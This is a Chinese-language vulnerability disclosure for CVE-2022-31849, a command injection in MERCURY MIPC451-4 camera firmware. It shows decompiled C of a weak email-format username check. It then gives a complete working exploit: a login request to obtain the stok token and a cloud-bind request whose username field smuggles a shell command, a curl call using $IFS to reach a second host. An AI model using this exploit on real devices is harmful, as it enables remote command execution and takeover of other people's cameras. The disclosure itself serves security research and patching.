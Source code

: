 # MERCURY MIPC451-4 存在命令注入漏洞

**漏洞厂商**: MERCURY

**厂商官网**: https://www.mercurycom.com.cn/

**影响产品**: MIPC451-4

**影响产品版本**: 1.0.22 Build 220105 Rel.55642n

**固件链接**: https://service.mercurycom.com.cn/download/202109/MIPC451-4%20V2.0%E5%8D%87%E7%BA%A7%E8%BD%AF%E4%BB%B620210414_1.0.6.zip

**发现者**: [SkYe231](mailto:skye231@foxmail.com)@Hillstone

**CVE**:  CVE-2022-31849

## 漏洞描述

水星 MIPC451-4 存在远程命令执行，远程攻击者可以通过精心构造的数据包绕过限制，实现远程命令执行。

## 漏洞详情

以邮箱名作为 username 的核心过滤规则，规则仅对邮箱格式进行一些过滤（具体看代码注释），并没有对特殊符号进行过滤，存在注入的机会。

> file:/usr/bin/dsd

```c
/* 期待返回值1 */

int FUN_00024aa4(byte *param_1)

{
  size_t sVar1;
  char *pcVar2;
  int iVar3;
  
                    /* 账号为空 */
  if (param_1 == (byte *)0x0) {
    return 0;
  }
                    /* 长度为0 */
  sVar1 = strlen((char *)param_1);
  if (sVar1 == 0) {
    return 0;
  }
                    /* 限制长度<129 */
  if ((int)sVar1 < 129) {
                    /* 匹配出@ */
    pcVar2 = strchr((char *)param_1,L'@');
                    /* 没有匹配项 */
    if (pcVar2 == (char *)0x0) {
      return 0;
    }
                    /* 是否以@结尾 */
    if (param_1[sVar1 - 1] != 0x40) {
                    /* 是否以@开头 */
      iVar3 = *param_1 - 0x40;
      if (iVar3 != 0) {
        iVar3 = 1;
      }
      return iVar3;
    }
  }
  return 0;
}
```

## EXP

1. 登录后台获取 stok

    ```
    POST / HTTP/1.1
    Host: 192.168.0.103
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/json; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 73
    Origin: http://192.168.0.103
    Connection: close
    Referer: http://192.168.0.103/
    
    {"method":"do","login":{"username":"{your_name}","password":"{your_password}"}}
    ```

2. 发送云账号登录包，触发远程命令执行

    > 根据实际情况替换
    >
    > Stok:05173d0162e8c77387fa1bbc12b2fa62
    >
    > Command:`curl$IFS-o-$IFS'http://192.168.0.101:9999/skye231'`
    
    ```
    POST /stok=05173d0162e8c77387fa1bbc12b2fa62/ds HTTP/1.1
    Host: 192.168.0.103
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/json; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 147
    Origin: http://192.168.0.103
    Connection: close
    Referer: http://192.168.0.103/
    
    {"cloud_config":{"bind":{"username":"\"}';curl$IFS-o-$IFS'http://192.168.0.101:9999/skye231';'{\"@mrskye.com","password":"admin123"}},"method":"do"}
    ```
    
    

